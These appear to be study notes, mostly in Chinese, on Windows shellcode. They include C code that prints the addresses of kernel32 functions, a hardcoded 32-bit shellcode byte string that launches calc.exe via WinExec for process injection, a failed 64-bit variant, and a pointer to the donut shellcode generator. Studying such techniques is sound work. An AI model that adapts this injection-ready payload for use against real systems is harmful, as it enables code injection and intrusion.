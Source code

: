 ```c
	char str[128];
//	printf("Current proc id :  %d\n", GetCurrentProcessId());

	// get baseaddress of kernel32.dll
	printf("kernel32.dll : 0x%p",GetKernel32BaseAddress());
	
	// get LoadLibraryA() base address
	printf("loadlibraryA : 0x%p\n", LoadLibraryA);
	
	// get WinExec() base address
	printf("WinExec : 0x%p\n", WinExec);
	
	// get ExitProcess() base address
	printf("ExitProcess() : 0x%p\n", ExitProcess);
	
	printf("hello world\n");
	printf("input something or waiting\n");
	scanf("%s", str);
	puts(str);
	return 0;
}
```

shellcode，调用**winexec和exitprocess函数来弹出计算器**。可以用来注入**32位**的进程，因为地址都是硬编码写死的，所以用的时候要注意注意。

```c
unsigned char shellcode[] = "\x55\x89\xE5\x33\xC0\x50\xB8\x2E\x64\x6C\x6C\x50\xB8\x65\x6C\x33\x32\x50\xB8\x6B\x65\x72\x6E\x50\x8B\xC4\x50\xB8"
							"\xA0\x12\xed\x76"
							"\xFF\xD0\x33\xC0\x50\xB8\x2E\x65\x78\x65\x50\xB8\x63\x61\x6C\x63\x50\x8B\xC4\x6A\x05\x50\xB8"
							"\xF0\xE1\xF0\x76"
							"\xFF\xD0\x33\xC0\x50\xB8"
							"\x80\x59\xed\x76"
							"\xFF\xD0\x90\x90\xC3";
```

## 64-bit shellcode-失败

```
"\x55\x48\x8B\xEC\x90\xC7\x04\x24\x2E\x64\x6C\x6C\xC7\x44\x24\xFC\x65\x6C\x33\x32\xC7\x44\x24\xF8\x6B\x65\x72\x6E\x48\x8B\xCC\x90\x90\x48\xB8\xA0\x8C\xC7\xA7\xFE\x7F\x00\x00\xFF\xD0\xBA\x05\x00\x00\x00\xC7\x04\x24\x65\x78\x65\x2E\xC7\x44\x24\xFC\x63\x6C\x61\x63\xC7\x44\x24\xF8\x00\x00\x00\x00\x48\x8B\xCC\x90\x48\xB8\xD0\x77\x41\xA8\xFE\x7F\x00\x00\x90\x90\x90\xC3"
```

## donut

将exe转换为shellcode的一个工具([GitHub - TheWover/donut：生成 x86、x64 或 AMD64+x86 与位置无关的外壳代码，从内存加载 .NET 程序集、PE 文件和其他 Windows 有效负载，并使用参数运行它们](https://github.com/TheWover/donut))

# Nt和Rt开头的api

- 以 Nt 开头的函数是 Windows NT 内核提供的 Native API，是系统内部使用的函数。

- 以 Rt 开头的函数是通过封装 Nt 开头函数来实现的，提供给开发人员使用。

对于以 Nt 开头的函数，可能更难使用和访问，并且它们往往没有直接对应的文档说明，但它们通常具有更高的性能。

